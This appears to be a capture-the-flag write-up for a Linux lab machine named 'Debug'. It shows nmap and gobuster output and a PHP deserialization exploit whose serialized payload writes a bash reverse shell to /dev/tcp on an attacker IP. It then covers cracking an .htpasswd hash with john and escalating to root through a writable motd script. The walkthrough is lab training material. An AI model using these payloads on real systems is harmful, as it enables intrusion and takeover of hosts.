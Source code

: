 # Debug : 
##Linux Machine CTF! You'll learn about enumeration, finding hidden password files and how to exploit php deserialization!

```
Hey everybody!

Welcome to this Linux CTF Machine!

The main idea of this room is to make you learn more about php deserialization!

I hope you enjoy your journey :)
```

![[04878cdb1624bcc08af74122f6b68a88.jpeg]]

As a hint from the Creator, we will be facing a PHP Deserialization.

## Enumeration
                              So Lets start with nmap
							
```bash
# Nmap 7.91 scan initiated Tue Mar 30 23:07:31 2021 as: nmap -sC -sV -vv -o Inital_nmap 10.10.234.104
Nmap scan report for 10.10.234.104
Host is up, received echo-reply ttl 63 (0.16s latency).
Scanned at 2021-03-30 23:07:32 EEST for 13s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:ee:1e:ba:07:2a:54:69:ff:11:e3:49:d7:db:a9:01 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDar9Wvsxi0NTtlrjfNnap7o6OD9e/Eug2nZF18xx17tNZC/iVn5eByde27ZzR4Gf10FwleJzW5B7ieEThO3Ry5/kMZYbobY2nI8F3s20R8+sb6IdWDL4NIkFPqsDudH3LORxECx0DtwNdqgMgqeh/fCys1BzU2v2MvP5alraQmX81h1AMDQPTo9nDHEJ6bc4Tt5NyoMZZSUXDfJRutsmt969AROoyDsoJOrkwdRUmYHrPqA5fvLtWsWXHYKGsWOPZSe0HIq4wUthMf65RQynFQRwErrJlQmOIKjMV9XkmWQ8c/DqA1h7xKtbfeUYa9nEfhO4HoSkwS0lCErj+l9p8h
|   256 8b:2a:8f:d8:40:95:33:d5:fa:7a:40:6a:7f:29:e4:03 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBA7IA5s8W9jhxGAF1s4Q4BNSu1A52E+rSyFGBYdecgcJJ/sNZ3uL6sjZEsAfJG83m22c0HgoePkuWrkdK2oRnbs=
|   256 65:59:e4:40:2a:c2:d7:05:77:b3:af:60:da:cd:fc:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGXyfw0mC4ho9k8bd+n0BpaYrda6qT2eI1pi8TBYXKMb
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 30 23:07:45 2021 -- 1 IP address (1 host up) scanned in 14.22 seconds
```
 
 We Have 2 Open ports:
					80 - http
					22 - ssh
checking the http we get The Default Apache Page , and there is nothing usefull here; 
lets try to see if there any directories in the site ,

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.234.104/
[+] Threads:        40
[+] Wordlist:       /usr/share/wordlists/SecLists-master/Discovery/Web-Content/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2021/03/30 23:11:06 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.html (Status: 403)
/.htpasswd.php (Status: 403)
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.html (Status: 403)
/backup (Status: 301)
/grid (Status: 301)
/index.html (Status: 200)
/index.php (Status: 200)
/javascript (Status: 301)
/javascripts (Status: 301)
/message.txt (Status: 200)
/server-status (Status: 403)
```
 
 As we can see there is some intresting files here :
 index.php - backup - message.txt 
 
 first lets see what inside the backup ...
 
 ![[Screenshot from 2021-03-31 03-13-38.png]]
 
 it seems that we have a source code for the index.php website,
 by checking the source code we can easly identify where is the vulnerable code ...
 
 ![[Pasted image 20210331033918.png]]
 
 As we Can see here we have debug parameter that being unserialized ,
 and accually we have one of the magic method  is the "__destruct()"
 
 the destruct method is take form_file as file name , and message variable as its value 
 and creating the file 
 
 so we can write a php code to generate a serialized object that will create a php reverse shell file as bellow :
 
 ```php
 <?php
class FormSubmit
{
	public $form_file = 'shell.php';
	public $message = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/ATTACKER-IP/1337 0>&1\'");';
}
print urlencode(serialize(new FormSubmit));

?>
```
payload:
```bash
O%3A10%3A%22FormSubmit%22%3A2%3A%7Bs%3A9%3A%22form_file%22%3Bs%3A10%3A%22shell2.php%22%3Bs%3A7%3A%22message%22%3Bs%3A70%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F10.8.94.192%2F1337+0%3E%261%27%22%29%3B%22%3B%7D
```

as we seen above the destruct method now will create a shell.php with the message as its contents, 

setup a listener and  pass the payload to "debug" parameter then navigate to /shell.php, you should catch a shell !



# User
Manually Checking the html directory we see that we got .htapasswd as the creator 
mentioned (hidden) passwords

![[Pasted image 20210331040049.png]]

well the password is hashed, we can crack it with john using rockyou

![[Pasted image 20210331040832.png]]


# Root 

root left a message to james ,, 

![[Pasted image 20210331041225.png]]

so can modify the welcome message in ssh that located in ```/etc/update-motd.d/00-header```

Here you can see how you can explit this by adding a reverseshell or by simply adding suid to bin/bash like this 

![[Pasted image 20210331042420.png]]


# voilà
![[Pasted image 20210331042824.png]]